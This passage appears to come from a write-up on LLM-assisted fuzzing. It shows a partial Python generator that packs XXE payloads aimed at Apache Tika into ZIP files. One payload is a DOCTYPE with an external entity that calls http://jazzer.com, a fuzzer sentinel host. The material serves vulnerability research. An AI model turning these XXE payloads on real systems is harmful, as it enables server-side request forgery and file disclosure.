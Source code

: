 ```
```

The probabilistic approach generates multiple variations and learns from collective coverage patterns, dramatically increasing the likelihood of reaching target vulnerability points that single-attempt strategies often miss.

**Example Approach: Apache Tika XXE Attack Suite**
```python
def generate(rnd: random.Random) -> bytes:
    # Strategy selection for XXE attack variations
    strategy = rnd.choice([
        'basic_xxe',
        # ... (other strategies) ...
    ])
    root_filename = rnd.choice([
        'root.xml',
        # ... (other filenames) ...
    ])
    
    # Create Manifest.xml content
    manifest_content = f'''
<?xml version="1.0" encoding="UTF-8"?>
<manifest><Root>{root_filename}</Root></manifest>
'''.encode('utf-8')
    
    # Generate exploit payload based on strategy
    if strategy == 'basic_xxe':
        port = rnd.choice([80, 443, 8080])
        root_content = f'''
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root
  [<!ENTITY xxe SYSTEM "http://jazzer.com:{port}">]>
<root>&xxe;</root>'''.encode('utf-8')

    # ... (other strategies) ...
    
    # Build ZIP file with exploit payloads
    files = [
        ('Manifest.xml', manifest_content),
        (root_filename, root_content)
    ]
    return create_zip(files, rnd)

# ... (helper functions) ...
```

**Why Generator Dominates:** 
- **Probabilistic Success**: If attempt #7 fails but #13 succeeds, you still win
- **Format Mastery**: Handles ZIP + XML + XXE simultaneously  
- **Strategic Variation**: Not random – intelligent exploration of attack space
- **Coverage Merger**: Learns from ALL 20 variations, not just successes

The probabilistic approach overcomes LLM non-determinism by embracing it rather than fighting it.
